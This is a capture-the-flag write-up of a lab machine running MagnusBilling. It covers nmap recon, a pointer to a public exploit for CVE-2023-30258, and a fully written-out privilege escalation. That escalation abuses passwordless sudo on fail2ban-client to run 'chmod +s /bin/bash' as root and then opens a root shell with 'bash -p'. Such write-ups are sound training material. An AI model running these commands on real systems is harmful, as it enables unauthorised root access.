 ## 🧾 Overview
Some mistakes can be costly.\
Gain a shell, find the way and escalate your privileges!\
Note: Bruteforcing is out of scope for this room.


## 🔍 Recon
Let's start with basic scan:
```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.160.86
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp    open     http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling
|_Requested resource was http://10.10.160.86/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
3306/tcp  open     mysql    MariaDB (unauthorized)
5038/tcp  open     asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 🌐 Web Enumeration
Port 80 hosts an Apache web server serving MagnusBilling, as revealed by the page title and /robots.txt disallowing /mbilling/. I visit the directory and find a login page. Furthermore, I can see the name MagnusBilling in the title.\
**● MagnusBilling is an open-source VoIP billing system used by telecom providers to manage customer accounts, process payments, and track call records. It integrates with Asterisk PBX for call management and automated billing.**\
By checking common application files, I identify the MagnusBilling version as 7.x.x from the README.md file.

## 🛡️ Vulnerability Analysis
Searching for vulnerabilities in MagnusBilling 7, I discover it is vulnerable to CVE-2023-30258, an unauthenticated command injection vulnerability. A detailed advisory for this vulnerability with a proof-of-concept (PoC) is available [here](https://eldstal.se/advisories/230327-magnusbilling.html).

## 🚀 Exploitation
I used this exploit(https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit).\
Follow the guide and eventually you will get the shell as asterisk. Now we have to stabilize the shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Now just visit the home directory of magnus and you'll find the user flag 🚩

## 🧑‍💻 Privilege Escalation
After gaining initial access as the asterisk user, I needed to escalate privileges to root. Time to enumerate.
**● Finding the Path**
First thing I always do after getting a foothold - check what I can run with sudo:
```bash
sudo -l
```
The output showed something interesting:
```bash
User asterisk may run the following commands on ip-10-10-28-254:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```
This immediately caught my attention. Fail2ban-client is a powerful tool that manages banning rules, and it needs root privileges to modify firewall rules. If I can run it as root without a password, there's definitely a way to abuse this.

**● Understanding Fail2ban**\
Fail2ban works by monitoring logs for suspicious activity (like failed login attempts) and automatically banning IPs by executing actions. These actions are basically shell commands that run as root.\
The key insight: if I can modify an action and then trigger it, I can execute arbitrary commands as root.

**● Checking the Configuration**\
I started by checking what jails (monitoring rules) were configured:
```bash
sudo /usr/bin/fail2ban-client status
```
Found an interesting jail called asterisk-iptables. Let me see what actions it has:
```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables actions
```
```bash
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```
Now let's check what the current actionban command does:
```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```
```bash
<iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>
```
This is the default legitimate action - it adds iptables rules to block IPs. But since I have sudo access to fail2ban-client, I can change this action to execute any command I want.

## 🧾My plan:
1. Modify the actionban to run chmod +s /bin/bash instead of iptables rules
2. Trigger the ban action by banning any IP
3. This executes chmod +s /bin/bash as root, adding the SUID bit to bash
4. Spawn a privileged shell using the SUID bash

**Step 1: Modify the action**
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
**Step 2: Verify the change**
```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```
```bash
chmod +s /bin/bash
```
Perfect! The action is now malicious.

**Step 3: Check bash permissions (before triggering)**
```bash
ls -la /bin/bash
```
```bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
Normal permissions - no SUID bit yet.

**Step 4: Trigger the action**
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
```
Success! This triggered the actionban command, which executed chmod +s /bin/bash as root.

**Step 5: Verify SUID bit was set**
```bash
ls -la /bin/bash
```
```bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
Excellent! Notice the s in -rwsr-sr-x. That's the SUID bit, meaning bash will now run with the owner's permissions (root).

## Getting Root
Now spawn a root shell with the -p flag (preserve privileges):
```bash
/bin/bash -p
```
The prompt changed from $ to # - I'm root!

## Why This Worked
The privilege escalation chain:

1. Sudo permission - I could run fail2ban-client as root without a password
2. Action modification capability - Fail2ban-client allows changing action commands
3. Command injection - I replaced the legitimate iptables command with chmod +s /bin/bash
4. Action trigger - Banning an IP executed my malicious command as root
5. SUID exploitation - Once bash had the SUID bit, it could be executed with root privileges
6. Preserved privileges - The -p flag prevented bash from dropping privileges

The critical mistake here was allowing a low-privilege user to run fail2ban-client with full sudo access. This tool can modify its own action configurations, essentially giving anyone with sudo access the ability to execute arbitrary commands as root.

Root flag: /root/root.txt ✓
